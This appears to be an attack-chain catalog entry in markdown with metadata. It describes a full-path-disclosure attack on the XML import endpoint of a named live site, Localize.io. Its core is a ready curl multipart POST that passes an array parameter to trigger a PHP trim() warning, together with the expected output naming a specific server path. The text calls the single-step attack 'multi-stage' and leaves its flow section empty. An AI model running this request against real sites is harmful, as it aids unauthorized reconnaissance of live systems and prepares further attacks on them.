

---
tags:
  - information-disclosure
  - php-error
  - path-disclosure
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Reconnaissance]]'
verified: false
platforms:
  - Web
  - PHP
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-PHP-Trim-Error-for-Path-Disclosure]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Software]]'
updated_at: '2025-12-14T17:26:06.244Z'
description: >-
  A single-step attack exploiting a PHP type error in the XML import endpoint of
  Localize.io to disclose the full server file path through a warning message.
skill_level: beginner
impact_level: medium
id: c8cdb7c8-e479-4496-a368-9dccbc6fc154
validated: true
mitre_tactics:
  - '[[Reconnaissance]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Software]]'
---
# Full Server Path Disclosure via PHP Array Injection in Localize.io XML Import

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Web platform running PHP
- Access to Localize.io import endpoint (e.g., /import/[project ID])
- Valid CSRF token if required

### Initial Access Requirements

- Public access to the web application
- Knowledge of project ID for the import endpoint
- No authentication required for this endpoint

## Detailed Attack Procedures

### Step 1: Trigger Path Disclosure
procedure: [[procedures/Exploit-PHP-Trim-Error-for-Path-Disclosure]]

**Objective**: Manipulate the import[overwrite] parameter to pass an array instead of a string, triggering a PHP trim() warning that discloses the full server file path.

**Instructions**: Use [[commands/curl-multipart-post-for-path-disclosure]] to send a crafted multipart POST request to the import endpoint. Replace [project ID] with the actual project identifier and update the CSRFToken if needed.

```bash
curl -X POST http://www.localize.io/import/[project ID] \
  -F "CSRFToken=MTcwMTAzMDk2MDUzNTFjN2I1NGE5MWYxLjkzMjk2OTM0" \
  -F "import[overwrite][]=0" \
  -F "import[languageID]=0" \
  -F "import[groupID]=0" \
  -F "MAX_FILE_SIZE=1572864" \
  -F "importFileXML=@/dev/null;type=application/octet-stream"
```

**Expected Output**: A PHP warning message including the full server path, such as "Warning: trim() expects parameter 1 to be string, array given in /var/www/vhosts/lvps178-77-99-228.dedicated.hosteurope.de/httpdocs_localize/index.php on line 410".

**Success Indicators**:
- PHP warning appears in the response
- Server file path is visible in the error message
- Path reveals hosting details (e.g., domain, directory structure)

## Attack Chain Summary

### Key Achievements

1. Successful exploitation of type mismatch in PHP trim() function
2. Disclosure of sensitive server path information
3. Potential reconnaissance for further attacks like directory traversal

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Software]] Gather Victim Host Information: Software

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance

---

*Last updated: 2023-10-01T00:00:00Z*
